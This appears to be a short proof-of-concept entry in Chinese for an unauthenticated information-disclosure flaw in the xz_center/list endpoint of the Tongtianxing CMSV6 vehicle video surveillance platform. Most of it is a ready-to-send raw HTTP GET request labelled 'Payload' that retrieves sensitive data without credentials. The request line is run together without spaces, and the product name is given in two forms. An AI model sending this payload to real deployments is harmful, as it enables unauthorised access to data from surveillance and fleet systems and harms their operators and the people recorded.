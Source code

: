 **漏洞描述：**

天星CMSV6接口xz_center存在信息泄露漏洞，攻击者可以通过直接访问获取敏感信息。

**影响版本：**

通天星CMSV6车载视频监控平台

**Payload：**

```
GET/xz_center/list?page=1HTTP/1.1
Host:host
User-Agent:Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept:*/*
Accept-Encoding:gzip, deflate
Connection:close
```

---
